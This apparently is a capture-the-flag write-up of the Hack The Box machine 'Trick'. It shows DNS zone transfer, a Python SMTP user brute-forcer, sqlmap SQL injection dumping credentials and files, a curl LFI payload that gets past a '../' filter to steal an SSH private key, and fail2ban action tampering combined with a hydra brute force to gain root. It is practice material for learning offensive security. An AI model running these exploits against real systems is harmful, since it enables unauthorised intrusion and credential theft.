

# Trick

## Enumeration
```bash
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```
```bash
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```bash
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

## SMTP
I went on a little bit of a rabbit hole with the SMTP server, but it wasn't completely useless  
I wrote this little python script, who attempts to find valid mail users, by bruteforcing VRFY  
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

rhost = "10.10.11.166"
rport = 25
path = "/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt"

server = smtplib.SMTP(host=rhost,port=rport)
if server.noop()[0] != 250:
    print("[-]Connection Error")
    sys.exit()

with open(path, "r") as f:
    users = f.read().rstrip().split("\n")

for i in users:
    vrfy = server.verify(i)
    if vrfy[0] != 550:
        print(vrfy)
```
So I could find michael ahead of time  
```bash
python3 smtp_brute.py
(252, b'2.0.0 michael')
```

## SQLi
[http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb)  
  
we saw the the payroll portal from the dig earlier, but it can be found using gobuster vhost too
it has a login page, which is vulnerable to SQli  
  


We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After trying sqlmap on various forms, the 'save deduction' form seems to be vulnerable  
  


```bash
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```bash
Database: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```

The SQli can also be leveraged to dump files that www-data has access to:  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/passwd
```
```bash
grep sh$ /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

looking at the nginx virtual host config to know what the web folder names are  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/nginx/sites-available/default  
```
```bash
grep 'server_name\|root' /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-available_default                       
        server_name trick.htb;
        root /var/www/html;
        server_name _;
        server_name preprod-marketing.trick.htb;
        root /var/www/market;
        server_name preprod-payroll.trick.htb;
        root /var/www/payroll;
```
this uncovers a new vhost - preprod-marketing  
[http://preprod-marketing.trick.htb/index.php](http://preprod-marketing.trick.htb/index.php)  
because we now have the web folder paths we can dump the source code  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /var/www/market/index.php  
```
```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```
This points us to an LFI as the above can be evaded like this ..././..././..././  

## LFI
So we can now just dump michael's key, and get user access  
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa' -o michael.pem
```

## Fail2Ban privesc
It is imediately apparent that the privesc will be something with fail2ban  
the makers of the box are hinting us to it in a few different ways  
there is a fail2ban config file in michael's home folder 
```bash
-bash-5.0$ ls -la
total 100
drwxr-xr-x 15 michael michael  4096 Sep 17 16:33 .
drwxr-xr-x  3 root    root     4096 May 25 13:28 ..
lrwxrwxrwx  1 root    root        9 Apr 22 09:47 .bash_history -> /dev/null
-rw-r--r--  1 michael michael   220 Apr 18  2019 .bash_logout
-rw-r--r--  1 michael michael  3526 Apr 18  2019 .bashrc
drwx------  9 michael michael  4096 May 11 21:09 .cache
drwx------ 10 michael michael  4096 May 11 21:08 .config
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Desktop
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Documents
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Downloads
drwx------  3 michael michael  4096 May 11 21:08 .gnupg
-rw-------  1 michael michael  1256 May 25 13:09 .ICEauthority
-rw-r--r--  1 michael michael  1536 Sep 17 14:22 iptables-multiport.conf
drwx------  3 michael michael  4096 May 11 21:07 .local
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Music
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Pictures
-rw-r--r--  1 michael michael   807 Apr 18  2019 .profile
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Public
drwx------  2 michael michael  4096 May 24 17:25 .ssh
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Templates
-rw-r-----  1 root    michael    33 Sep 17 01:51 user.txt
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Videos
-rw-------  1 michael michael 12716 Sep 17 16:33 .viminfo
```
he has access to restart fail2ban  
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
and also has write access in /etc/fail2ban/actions.d
```bash
-bash-5.0$ cd /etc/fail2ban/
-bash-5.0$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Sep 17 16:36 .
drwxr-xr-x 126 root root     12288 Sep 17 01:51 ..
drwxrwx---   2 root security  4096 Sep 17 16:36 action.d
-rw-r--r--   1 root root      2334 Sep 17 16:36 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 17 16:36 filter.d
-rw-r--r--   1 root root     22908 Sep 17 16:36 jail.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 jail.d
-rw-r--r--   1 root root       645 Sep 17 16:36 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 17 16:36 paths-common.conf
-rw-r--r--   1 root root       573 Sep 17 16:36 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 17 16:36 paths-opensuse.conf
```
because he's part of the "security" group  
```bash
groups
michael security
```
a quick google search for "fail2ban privesc" an we know we can execute arbitrary command with this  
let's try to make a bash suid  
I'm now realising that that fail2ban file in the home folder is probably not a hint, but a leftover from somebody else, lets copy over the original.
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf iptables-multiport.conf
```
adding the chmod suid into the actionban command  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
and placing the file back in action.d  
```bash
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```
then restarting the daemon  
```bash
sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
Now of course we need to trigger the ban, lets do a bruteforce attack with hydra  
```bash
hydra ssh://trick.htb -l root -P /usr/share/wordlists/rockyou.txt
```
and we're in  
```bash
ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
let's not forget to put things back how they were, removing the config file from home and removing the suid flag from bash
